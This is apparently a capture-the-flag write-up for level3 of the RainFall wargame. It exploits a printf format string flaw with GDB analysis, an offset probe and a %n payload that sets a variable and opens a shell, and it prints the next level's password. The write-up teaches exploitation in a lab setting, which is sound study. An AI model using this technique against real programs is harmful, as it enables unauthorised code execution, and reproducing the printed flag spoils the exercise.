 # Level3 Exploit

## Steps

### 1. Decompile the Binary

Use GDB to disassemble the `main` and `v` functions:

```bash
level3@RainFall:~$ gdb level3
(gdb) disassemble main
(gdb) disassemble v
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool for better understanding.

### 2. Check Available Functions

Examine the available functions to identify any potential vulnerabilities:
- The `main` function calls a function `v`.
- The `v` function contains a call to `printf` without format string specifiers, making it vulnerable to format string attacks.
- The `v` function uses an undeclared variable `m`. If `m` is set to `0x40` (64 in decimal), it will launch a shell.

### 3. Find the Variable Address

Use GDB to find the address of the variable `m`:

```bash
level3@RainFall:~$ gdb level3
(gdb) info var
```

Identify the address of `m`, for example: `0x0804988c`.

### 4. Determine Format String Offset

Determine at which position `printf` starts to write the given string. Use this input string in GDB:

```bash
level3@RainFall:~$ gdb level3
(gdb) run
(gdb) AAAAAAAAAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

You should see output similar to:

```
AAAAAAAAAAA00000200.b7fd1ac0.b7ff37d0.41414141.41414141.25414141.2e783830.78383025.3830252e
```

Here, the value `41414141` (which corresponds to `AAAA` in ASCII) appears. We find that the `printf` argument position is at the 4th position.

### 5. Create the Exploit

Now we have all the information to exploit the format string vulnerability:
- The address of `m` in little-endian format is `\x8c\x98\x04\x08`.
- We need to put the value `64` (0x40) in the 4th position of the stack preceding the `printf` call stack use.

Construct the input string using Python:

```bash
python -c 'print("\x8c\x98\x04\x08%60d%4$n")'
```

`%60d` will write 60 bytes on the standard output, and `%4$n` means to put the preceding content size (`%60d` (=60) + address string (4 length) = 64) at the fourth chunk before the `printf` stack use.

### 6. Run the Exploit

Run the exploit, keeping `stdin` open:

```bash
level3@RainFall:~$ (python -c 'print("\x8c\x98\x04\x08%60d%4$n")' ; cat) | ./level3
```

Once the shell is opened, you can execute commands:

```bash
$ whoami
level4
$ cat /home/user/level4/.pass  
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

### Explanation

1. **Format String Vulnerability**: `printf` without format specifiers allows for unintended memory reads and writes.
2. **%n Specifier**: Used to write the number of bytes printed so far to an address specified on the stack.
3. **Offset Calculation**: Determining where the format string parameters are on the stack to correctly position the address of `m`.
4. **Exploit String**: Crafted to write the desired value (`64`) to the variable `m`.

## Conclusion

By following these steps, you have successfully exploited a format string vulnerability to gain shell access on `level3`. This technique uses knowledge of format string exploits and basic stack manipulation.
